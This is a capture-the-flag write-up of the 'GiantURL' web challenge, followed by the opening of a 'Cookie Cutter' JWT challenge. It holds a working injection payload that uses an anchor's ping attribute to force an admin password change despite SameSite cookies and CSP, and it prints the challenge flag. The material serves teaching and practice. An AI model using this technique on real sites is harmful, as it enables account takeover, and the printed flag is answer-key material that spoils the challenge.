 # GiantURL
We have a domain where we can:
- create `redirect` URL `GET /redirect`
- change admin's password `POST /admin/changepass`
- report URL `POST /report`

The website is not protected by any CSRF tokens but the `SameSite=Lax` cookie is set so we can't do any `POST` requests across different origins.

```php
<?php
if ($path === '/admin/changepass' && $_SERVER['REQUEST_METHOD'] === 'POST' && $_SESSION["admin"] === "true") {
    if (strlen($_REQUEST['password']) >= 100 && count(array_unique(str_split($_REQUEST['password']))) > 10) {
        $password = $_REQUEST['password'];
        echo 'Successfully changed password.';
    } else {
        echo 'Password is insecure.';
    }
}
file_put_contents("password", $password);
?>
```

In order to get the flag we have to somehow change the admin's password. We can see that it must be a `POST` request but the `password` can be passed as a URL parameter.

In the `/redirect` we have a vulnerable code:
```php
Click on <a href=<?php echo htmlspecialchars($_REQUEST['url']); ?>>this link</a> to go to your page!
```

In theory we could insert the xss there, like for example: `<a href=aa onclick=alert()>this link</a>` but CSP will block such attempts because of the
`Content-Security-Policy: default-src 'self'; style-src 'unsafe-inline';` header.

However, there is a `ping` feature in `<a>` elements that sends a `POST` request when the link was clicked. So we can insert `<a href=aa ping="/admin/changepass?password=LONG_PASSWORD">this link</a>` in the `/redirect` so when an admin clicks on that URL their password will change. The full payload:
`
https://giant_url.2019.chall.actf.co/redirect?url=aa%20ping=/admin/changepass?password=0123456789a0123456789a0123456789a0123456789a0123456789a0123456789a0123456789a0123456789a0123456789a0123456789a0123456789a0123456789a0123456789a0123456789a0123456789a0123456789a0123456789a0123456789a0123456789a0123456789a
`

When admin visits our website we can log in using the new credentials. By doing that we get the flag: **actf{p1ng_p0ng_9b05891fa9c3bed74d02a349877b1c60}**

# Cookie Cutter
The chalange is about hacking the JWT cookie. 
To get the flag we have to pass this check:
```javascript
let sid = JSON.parse(Buffer.from(cookie.split(".")[1], 'base64').toString()).secretid;
if(sid==undefined||sid>=secrets.length||sid<0){throw "invalid sid"}
let decoded = jwt.verify(cookie, secrets[sid]);
if(decoded.perms=="admin"){
    res.locals.flag = true;
}
```
where the `secrets` is an array containing randomly generated `secrets`
